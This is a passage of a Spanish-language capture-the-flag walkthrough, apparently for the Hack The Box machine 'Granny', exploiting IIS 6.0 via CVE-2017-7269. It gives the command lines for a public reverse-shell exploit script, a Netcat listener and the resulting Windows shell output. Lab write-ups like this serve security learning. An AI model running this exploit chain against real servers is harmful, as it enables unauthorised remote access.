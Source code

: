 
Dentro de la información obtenida, se observa que se trata de un servicio de **IIS** en su versión **6.0**, pero no se obtiene más información al respecto.

![web](/granny/web.png)


## Explotación 

Para llevar a cabo la explotación, se pueden seguir dos enfoques: aprovechar la vulnerabilidad de la versión de **IIS** que permite obtener una **shell reversa** mediante un **Buffer Overflow** o utilizar el servidor **WebDav** para realizar una carga de archivos y conseguir así una **shell reversa**.

###  Buffer OverFlow 

Al investigar en Internet sobre esa **versión** específica, lo primero que se encuentra es que está relacionada con un **CVE** que permite realizar un ataque de **Buffer Overflow** y obtener una shell reversa dentro del equipo.

![exploit](/granny/exploit.png)


Ahora, se puede utilizar el exploit de [H3xL00m](https://github.com/H3xL00m/CVE-2017-7269) para aprovechar la vulnerabilidad del servicio.

![github](/granny/github.png)


Entonces, puedes clonar el repositorio y ejecutar el siguiente comando:

```bash
python2.7 ii6_reverse_shell.py IpServicio PueroServicio IpAtacante puertoEscucha
```
{: .nolineno}

A continuación, es necesario ponerse a la escucha con Netcat para obtener la shell inversa:

```bash
nc -lvp 4444
```
{: .nolineno}


A continuación, puede ejecutarlo de la siguiente manera:

```bash
python2.7 ii6_reverse_shell.py 10.10.10.14 80 10.10.14.17 4444
```
{: .nolineno}


Y se ganá la shell revers.

```bash
nc -lvp  4444
listening on [any] 4444 ...
connect to [10.10.14.17] from 10.10.10.15 [10.10.10.15] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
{: .nolineno}
